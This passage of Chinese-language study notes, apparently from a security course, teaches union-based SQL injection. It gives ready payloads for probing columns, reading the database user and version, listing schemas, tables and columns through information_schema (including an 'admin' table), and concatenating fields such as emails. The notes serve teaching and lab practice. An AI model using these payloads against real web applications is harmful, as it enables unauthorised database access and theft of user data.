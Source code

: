```
1' union select 1,2 -- 123
-1' union select 1,2 -- 123		//使用-1来使union前半语句无查询返回值
```

###### ④查看数据库信息

```
user()	//返回当前使用数据库的用户
version()	//返回当前数据库版本
database()	//返回当前使用的数据库名
```

###### ⑤查看表及列名

* 系统内置**数据库information_schema**，存储其他所有数据库信息

* ```
  schema表: 存放所有数据库，类似于show databases;
  tables表: 存储数据库中的表信息
  columns表: 存储表中的列信息，包括表有多少列
  ```

* ```
  //显示所有数据库的信息并显示数据库名
  -1' union select schema_name,2 from information_schema.schemata -- qwe
  
  -1' union select database(),2#
  
  //获取数据库为liuyanban的所有表信息并显示表名
  -1' union select table_name,2 from information_schema.tables where table_schema = 'liuyanban'  -- qwe
  
  //选取数据库为liuyanban，表为liuyan的所有字段并显示表名和字段名
  -1' union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' -- qwe
  
  -1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe
  ```

###### ⑥字符串拼接

###### ⑦常用函数

1. concat()

   * 将多个字符串链接成为一个字符串

   ```
   -1' union select 1,concat(id,email_id),3 from emails --+
   ```

   <img src="../../images/8-19-morning/concat.png" alt="concat" style="zoom:67%;" />